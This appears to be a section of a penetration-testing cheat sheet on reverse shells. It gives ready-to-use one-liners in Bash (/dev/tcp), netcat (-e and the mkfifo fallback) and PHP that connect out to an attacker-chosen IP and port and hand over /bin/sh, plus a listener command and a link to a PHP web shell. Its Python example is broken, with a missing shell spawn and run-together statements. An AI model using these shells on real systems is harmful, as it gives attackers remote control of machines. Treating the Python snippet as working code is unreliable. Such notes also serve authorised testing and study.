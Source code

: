 
### 6) REVERSE SHELL 🐢

-----------------------------------------------------------------
-----------------------------------------------------------------

**Bash**
```Bash_Bash
bash -i >& /dev/tcp/<IP_TO_CONNECT_TO>/<PORT> 0>&1

# Example:
  bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
+ Make sure to have `netcat` listening on local machine
 - `nc -nlvp PORT`
 - Example: `nc -nlvp 8080`

-----------------------------------------------------------------
-----------------------------------------------------------------
  
**Netcat**
+ Netcat is **rarely present on production systems**
 - _Even if it is_ there are _several versions_ of netcat that **don’t support the -e** option
```Basic_Netcat
nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
```Last_Ditch_Netcat
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP_TO_CONNECT_TO> <PORT> >/tmp/f

Example:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

-----------------------------------------------------------------
-----------------------------------------------------------------

**PHP**

```Basic_PHP
php -r '$sock=fsockopen("<IP_TO_CONNECT_TO>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'

# Example:
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
+ This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

+ If you want a .php file to upload, see the more featureful and robust php-reverse-shell:
[More robust PHP Shell]: https://pentestmonkey.net/tools/web-shells/php-reverse-shell

-----------------------------------------------------------------
-----------------------------------------------------------------

**PYTHON**

```Tested_On_Python2_(swap_out_IP_and_Port)
# Command Line Version / Cmd Line Version
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))'

# Code Version
import socket,subprocess,os s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",1234))
```

-----------------------------------------------------------------
-----------------------------------------------------------------

